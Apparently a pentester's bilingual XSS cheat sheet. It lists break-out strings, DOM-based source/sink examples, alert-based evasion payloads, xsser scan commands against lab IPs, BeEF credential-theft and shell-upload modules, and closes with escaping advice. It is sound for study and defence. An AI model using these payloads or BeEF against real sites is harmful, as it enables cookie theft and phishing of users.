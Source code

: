 # XSS

## Exploit (Reflected & Stored)
- تزریق کد به محتوای صفحه HTML بدون هیچ encoding
  - ورودی های سایت مانند Search و Comment و ... 
  - پس از تزریق اسکریپت باید به page source code رفته و بررسی کنیم که با چه کاراکترهایی می توانیم از المانی که حاوی اسکریپت ما می باشد، breake out کنیم. چند نمونه در زیر آمده است:
```Javascript
">
'>
'">
'">');
/">
</title>
```
- س

## Exploit (DOM-based)
- تابع  ```location.search``` برای source
  - تابع ```document.write``` برای sink
- استفاده از ```innerHTML``` برای  sinkو تابع ```location.search``` برای  source 
  - در اینحالت محتوای search شده درون صفحه نمایش داده می شود، که باید از تگ img برای تزریق payload استفاده می کنیم.
```
0 search results for '<span id="searchMessage"></span>'
...
document.getElementById('searchMessage').innerHTML = (new URLSearchParams(window.location.search)).get('search')
``` 
- تابع  ```location.search``` برای source ```jQuery anchor href attribute``` برای sink
  - می خواهیم با کلیک روی کلید ```Back``` کوکی قربانی نمایش داده شود.
  - طبق کدهای زیر، پارامتر ```returnPath``` از URL خوانده شده و در href عه لینکی که به Back اشاره می کند، قرار داده می شود:
  - با تغییر URL و قرار دادن مقدار ```javascript:alert(document.cookie)``` برای پارامتر returnPath، با کلیک بر روی *Back*، کوکی کاربر نمایش داده می شود. 
```JavaScript
<a id="backLink">Back</a>
...
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
```
- ییی

## Payloads
```Javascript
<script>alert(888)</script>
<SCript>alert(888)</SCript>
<scri<script>pt>alert(888)</scri</script>pt>
<script>prompt(888)</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 56, 56, 56, 41))</script>

<svg onload=alert(888)>

<img src=1 onerror=alert(888)>
<img src=1 oNeRrOr=alert`888`>


<BODY ONLOAD=alert(888)>
```

## Payloads
```Javascript
'; alert(888)'//
%27;+alert(888);//
";alert(888);//
";alert(888);"
';alert(888);//
';alert(888);'
```

## xsser
- POST
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'```
    - XSSer will substitute payload in place of "XSS" string
    - ```p``` shows parameter in POST request (intercept request and copy parameter values from Burp) 
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto```
    - Trying various XSS payloads by using XSSer's ```--auto``` option
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"```
    - Using custom XSS payload 
- GET
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote"```
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"```
    - Providing basic XSS payload to XSSer
- Authenticated
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0"```
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0" --Fp "<script>alert(1)</script>"```
    - Scan the target using basic XSS payload

## BeEF

- Initialize
  - Install
    - ```apt update```
    - ```apt install beef-xss```
  - Change username/password
    -```nano /etc/beef-xss/config.yaml```

- Run
  - ```beef-xss```  
  - Browser => 127.0.0.1:3000/ui/panel

- Usage
  - 127.0.0.1:3000/hook.js
  - 192.168.8.106:3000/demos/basic.html

- Useful commands
  - Steal Credentials
    - Social Engineering -> Pretty Theft
  - Screenshot
    - Browser -> Spyder Eye     
  - Redirect 
    - Browser -> Hooked Domain -> Redirect Browser  
  - Shell Upload with update
    - Social Engineering -> Fake Notification Bar(Firefox)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
